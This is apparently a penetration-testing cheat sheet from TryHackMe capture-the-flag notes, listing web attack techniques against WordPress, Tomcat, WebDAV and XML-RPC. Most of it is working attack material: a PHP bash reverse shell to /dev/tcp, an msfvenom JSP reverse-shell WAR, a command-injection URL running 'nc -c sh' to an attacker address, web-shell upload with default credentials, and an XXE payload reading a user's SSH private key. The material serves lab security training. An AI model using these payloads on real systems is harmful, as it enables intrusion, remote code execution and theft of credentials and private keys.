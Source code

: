 # Web



## Wordpress

### Reverse Shell #1 - Edit existing Plugin

**Examples**&#x20;

[#initial-shell](../../walkthroughs/tryhackme/wordpress-cve-2021-29447.md#initial-shell "mention")

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

Update the page with your reverse shell then save. This will make the plugin not appear anymore under Installed Plugins

<figure><img src="../../.gitbook/assets/image (1079).png" alt=""><figcaption></figcaption></figure>

Curl the page to activate it.

**Kali**

```
curl http://$VICTIM/wp-content/plugins/akismet/akismet.php
```

### Reverse Shell  #2 - Upload Plugin

**Examples**&#x20;

[mr-robot-ctf.md](../../walkthroughs/tryhackme/mr-robot-ctf.md "mention")[retro.md](../../walkthroughs/tryhackme/retro.md "mention")

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```





## TomCat

### Common usernames and passwords

**Examples**

[thompson.md](../../walkthroughs/tryhackme/thompson.md "mention")

```
tomcat
s3cret
```

### Reverse Shell

**Examples**

[thompson.md](../../walkthroughs/tryhackme/thompson.md "mention")

**Kali**

<pre><code><strong>msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=1337 -f war > rshell.war
</strong>nc -lvnp 1337
</code></pre>

<figure><img src="../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>



## See CMDS from page source

**Examples**

[jack-of-all-trades.md](../../walkthroughs/tryhackme/jack-of-all-trades.md "mention")

Sometimes you can't see the results of the output from the page so you need to check the page source.

```
view-source:http://$VICTIM:22/nnxhweOV/index.php?cmd=whoami
```

<figure><img src="../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Browser**

```
view-source:http://$VICTIM:22/nnxhweOV/index.php?cmd=nc%20-c%20sh%2010.10.154.80%201337
```



## Change request type

**Examples**

[mothers-secret.md](../../walkthroughs/tryhackme/mothers-secret.md "mention")

<figure><img src="../../.gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

Change the request to POST and add everything else highlighted, we see the status message now changes.

<figure><img src="../../.gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>



Now we change the yaml to the the emergency override code mentioned in the room.

<figure><img src="../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

Now we perform the same steps again except this time for the api/nostromo route and the new file we discovered.

<figure><img src="../../.gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

## **WebDav Cadvaer**&#x20;

If server is using WebDav and we have credentials we can login and upload files.

**Examples**

[dav.md](../../walkthroughs/tryhackme/dav.md "mention")

**Kali**

<pre><code><strong>cadaver http://$VICTIM:80/webdav
</strong>Username: wampp
Password: xampp
dav:/webdav/> put shell.php shell.php
</code></pre>



## XML-RPC

### Check if it is enabled

**Examples**

[retro.md](../../walkthroughs/tryhackme/retro.md "mention")

wpscan or a scan maybe able identified that xmlrpc.php exists, if it is check if it is enabled.

```
POST /$SITE/xmlrpc.php HTTP/1.1
Host: $VICTIM
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

### View Files

**Examples**

[mustacchio.md](../../walkthroughs/tryhackme/mustacchio.md "mention")

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```





